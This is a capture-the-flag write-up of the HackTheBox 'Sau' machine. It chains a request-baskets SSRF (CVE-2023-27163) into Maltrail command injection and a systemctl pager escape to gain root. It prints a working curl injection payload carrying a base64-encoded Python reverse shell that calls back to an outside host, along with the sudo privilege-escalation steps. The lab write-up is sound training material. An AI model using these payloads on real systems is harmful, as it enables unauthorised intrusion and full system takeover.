


# HackTheBox-Sau
## Reconnaissance
### First, we use nmap to see what services and at what ports are open/active in the server

### As we can see, we found 4 ports 2 that are open which are 22 (SSH) and 55555 (Unknown), and then 2 that are filtered which are 80 (HTTP) and 8338 (Unknown). First i'd like to check if the open port other than SSH is a web or not.

### And it is a web, and the web is a request basket. Request Basket is basically a web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI. So let's see if there's a vulnerability or even an exploit available for request basket.

### Apparently there's already a [POC](https://github.com/entr0pie/CVE-2023-27163) for this web app and the CVE for this vulnerability is [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. This vulnerability allows attackers to access network resources and sensitive information via a crafted API request. So let's try using the POC and try with our own.

## Request Basket Exploitation

### Let's see how the web operates, first we create our basket

 

 

### Now let's see what's inside of it if we send a request to the url

### Now we see that our HTTP Request stored in here when we sent the request. We notice that there's a setting/configuration, let's see what's the configuration for this web app. 

### Well well well....we can actually forward url. Let's see if we forward it to localhost with port 80 since we know from our recon that there's a filtered port 80

### From my testing just by forwarding it to http://127.0.0.1:80, it doesn't show anything. Then i tried multiple combination of configuration. We are able to get this website called Maltrail. We able to get it by checking the "Proxy Response" option which basically it will send the response back to our client.

### So for using the [POC](https://github.com/entr0pie/CVE-2023-27163), we just have to download the script and then run it with this
> ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
### It will basically give us the same result as the previous method

## Maltrail Exploitation

### Now we see that this website is called maltrail with its version v0.53. Again as per usual let's see if there's a vulnerability or/and exploit for it.

### We found an [Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) and the [Vulnerability explanation of this version of Maltrail](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/). We can see that Maltrail <= v0.54 is vulnerable to unauthenticated OS command injection during the login process. We just have to do basically this
> curl 'http://10.10.11.224:55555' --data 'username=;`[COMMAND]`'
### So let's use that to exploit the vulnerability and reverse shell since we know there's port 22 open for SSH but first we have to change the forward url to http://127.0.0.1/login first since well from the POC and the explanation the url is not just the homepage of Maltrail but it's /login of the Maltrail website.

### I'm using this [web](https://www.revshells.com/) to make the reverse shell payload. I'm using the Python #1 assuming the web server has python in it.

### Then we stumble to a few obstacle, we can't just use the reverse shell without encoding it first cause there will be parse error. So let's see if we can use base64 and tweak a little bit the command. Then it still doesn't work so now i'm using Python #2 So now the payload becomes this
> curl 'http://10.10.11.224:55555/daa8fbp' --data 'username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTYuMzAiLDEyMzQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc="+|+base64+-d+|+sh`'

### And voila we are able to get in using the payload that we made. Let's check what do we have in the current directory and where are we exactly

### Since there's nothing when we do ls, then we check where are we exactly, since we are not at home, let's try cd and then ls again

### We see now that we changed directory, we found our user flag

## Root Flag

### Since we see no other flag other than the flag.txt in the current working directory, and we try to become root here then let's use
> sudo -l

### Okay we see that this user can use /usr/bin/systemctl status trail.service, then let's run it

### Then since we input something here, usually we'd test it using !/bin/sh or !sh

### And we are able to get in, and able to get the root flag